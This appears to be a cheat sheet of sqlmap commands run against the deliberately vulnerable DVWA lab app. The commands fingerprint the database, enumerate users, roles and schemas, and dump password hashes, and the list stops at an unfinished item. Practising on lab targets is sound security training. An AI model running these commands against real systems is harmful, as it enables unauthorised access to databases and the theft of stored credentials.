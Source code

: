 - Banner grab DBMS backend.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent -b
```

- Fingerprint the DBMS backend extensively.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent -f
```

- Enumerate current user database and check if it's DB administrator.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --current-user --is-dba 
```

- Enumerate user database accounts

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --users
```

- Dump user database passwords

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --passwords
```

- Enumerate privileges and roles.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --roles -U CU
```

- Enumerate database schema.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --schema
```

- Enumerate database schema yet exclude system databases.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --schema --exclude-sysdbs
```

- Enumerate current database.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --current-db
```

- Enumerate available databases.

